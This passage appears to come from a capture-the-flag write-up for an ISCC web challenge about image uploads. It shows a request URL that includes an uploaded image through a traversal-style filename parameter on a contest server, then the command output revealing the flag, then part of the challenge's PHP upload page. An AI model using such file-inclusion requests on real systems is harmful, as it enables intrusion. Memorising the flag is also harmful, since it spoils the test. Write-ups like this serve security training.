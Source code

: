 ```
http://101.201.126.95:7004/?filename=../uploads/2020/05/01/2418455eabbf3f5765a454339781.jpg&amp;submit=%25E6%258F%2590%25E4%25BA%25A4%25E6%259F%25A5%25E8%25AF%25A2
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01c2c38fa2a391fb4c.png)

```
cat flag.php

flag`{`ISCC_FREAKING_AWESOME`}`
```

**附题目源码**
- index.php
```
&lt;?php
$SELF_PAGE = substr($_SERVER['PHP_SELF'],strrpos($_SERVER['PHP_SELF'],'/')+1);

if ($SELF_PAGE = "clientcheck.php")`{`
    $ACTIVE = array('','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','active open','','','','active','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','');
`}`

include_once 'inc/uploadfunction.php';

$html='';
if(isset($_POST['submit']))`{`
    $type=array('jpg','jpeg','png');//指定类型
    $mime=array('image/jpg','image/jpeg','image/png');
    $save_path='uploads'.date('/Y/m/d/');//根据当天日期生成一个文件夹
    $upload=upload('uploadfile','512000',$type,$mime,$save_path);//调用函数
    if($upload['return'])`{`
        $html.="&lt;p class='notice'&gt;success！&lt;/p&gt;&lt;p class='notice'&gt;文件保存的路径为：`{`$upload['save_path']`}`&lt;/p&gt;";
    `}`else`{`
        $html.="&lt;p class=notice&gt;`{`$upload['error']`}`&lt;/p&gt;";

    `}`
`}`
?&gt;

&lt;head&gt;
    &lt;title&gt;ISCC | What can images do?&lt;/title&gt;
    &lt;style&gt;
    body`{`background-image:url(./static/background.jpg);`}`

    html,body`{`
    position: relative;
    height: 100%;
    `}`

    .main-content`{`
    position: relative;
    width: 300px;
    margin: 80px auto;
    padding: 20px 40px 40px;
    text-align: center;
    background: #fff;
    border: 1px solid #ccc;
```